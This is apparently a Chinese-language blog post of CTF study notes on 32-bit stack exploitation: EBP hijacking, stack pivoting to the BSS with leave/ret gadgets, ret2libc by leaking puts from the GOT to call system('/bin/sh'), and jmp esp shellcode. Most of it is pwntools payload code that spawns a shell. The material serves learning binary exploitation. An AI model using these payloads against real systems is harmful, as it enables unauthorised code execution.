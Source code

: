 ```yaml
---
layout: post
title:  "ebp"
date:   2020-02-23 19:31:29 +0900
categories: jekyll update
---
```


### ebp 劫持

#### 一、修改main_ebp -> （实质）间接修改main_return_address

main_ebp -> target_addr 

```python
main -> func(a,b)




b
a
func_return_main
				<= func_ebp = main_ebp (to fake)
				
				
				
				<= fun_esp
				
main_return_address -> target_func
main_ebp -> target_address
				
				
```

```python
paylaod = padding + p32(target_func) + p32(target_addr)
```

**即修改main_ebp ,在 main 函数返回时，leave ;	ret ;**

**leave 后 esp = ebp ，再pop ebp;那么 esp -> 返回地址。即在之前布置ebp的高4字节处改为system -> getshell**

#### 栈劫持

对于wiki上的 ret2libc 的题可以利用栈劫持(pop_ebp + leave_ret)去做(即只利用了一次栈溢出) //没有

```python
payload   = padding + (esp_padding?)  + fake_ebp

payload += p32(elf.plt["puts"]) + p32(pop_ret) + p32(elf.got["puts"])

payload += p32(elf.plt["gets"]) + p32(pop_ret) + p32(bss_addr)

payload += p32(pop_ebp_ret) + p32(bss_addr) + p32(leave_ret)
#ebp -> bss  ; mov esp,ebp  ; pop ebp  ;  ret ->system

p.sendlineafter("Can you find it!?",payload)
puts_addr = u32(p.recv(4))
libc_base = puts_addr - libc.symbols["puts"]
libc.address = libc_base
system = libc.symbols["system"]
binsh = libc.search("/bin/sh").next()

payload = "junk" + p32(system) + "junk" + p32(binsh)
p.sendline(payload)
p.interactive()
```



#### 三、 若有，可以利用 jmp  esp;

```
jmp_esp_addr = 0x8048504
shellcode = " " # 短的sc
padding = ''
payload = ''
payload +=shellcode.ljust(padding + fake_ebp ,"\x90")
payload += asm("sub esp,40;jmp esp")
hyq.sendlineafter(" ",payload)
hyq.interactive()
```

即劫持eip = esp ; 利用往栈上写指令，写shellcode 并执行 -> getshell.



参考链接：https://www.bilibili.com/video/BV1JV411m7PC?p=3